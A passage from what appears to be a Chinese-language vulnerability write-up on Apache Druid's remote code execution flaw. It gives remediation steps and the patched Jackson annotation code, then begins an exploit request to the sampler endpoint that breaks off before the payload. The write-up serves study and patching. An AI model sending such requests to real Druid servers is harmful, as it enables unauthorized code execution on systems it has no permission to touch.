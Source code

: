 ```json
      		}
      	},
      	"samplerConfig": {
      		"numRows": 10
      	}
      }
```


### 漏洞修复

1. 升级到Apache Druid 0.20.1。

2. 加强访问控制，禁止未授权用户访问web管理页面。

3. 官方代码修复：

```java
//org.apache.druid.guice.GuiceAnnotationIntrospector

 @Override
  public JsonIgnoreProperties.Value findPropertyIgnorals(Annotated ac)
  {
    if (ac instanceof AnnotatedParameter) {
      final AnnotatedParameter ap = (AnnotatedParameter) ac;
      if (ap.hasAnnotation(JsonProperty.class)) {
        return JsonIgnoreProperties.Value.empty();
      }
    }

    return JsonIgnoreProperties.Value.forIgnoredProperties("");
  }
```

重写了Jackson的findPropertyIgnorals方法

```java
//com.fasterxml.jackson.databind.AnnotationIntrospector

public JsonIgnoreProperties.Value findPropertyIgnorals(Annotated ac)
{
    // 18-Oct-2016, tatu: Used to call deprecated methods for backwards
    //   compatibility in 2.8, but not any more in 2.9
    return JsonIgnoreProperties.Value.empty();
}
```

在这个方法里，返回了JsonIgnoreProperties.Value.empty()。这意味着Jackson允许一个name为空的属性。

而修复后的代码判断逻辑为：当属性被@JsonProperty修饰，则允许为空，如果属性没有被@JsonProperty修饰，则不允许为空。

### 漏洞利用

```javascript
POST /druid/indexer/v1/sampler HTTP/1.1
Host: localhost:8888
Accept: application/json, text/plain
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 902
Connection: keep-alive

{
          "type": "index",
          "spec": {
              "ioConfig": {
                  "type": "index",
                  "firehose": {
```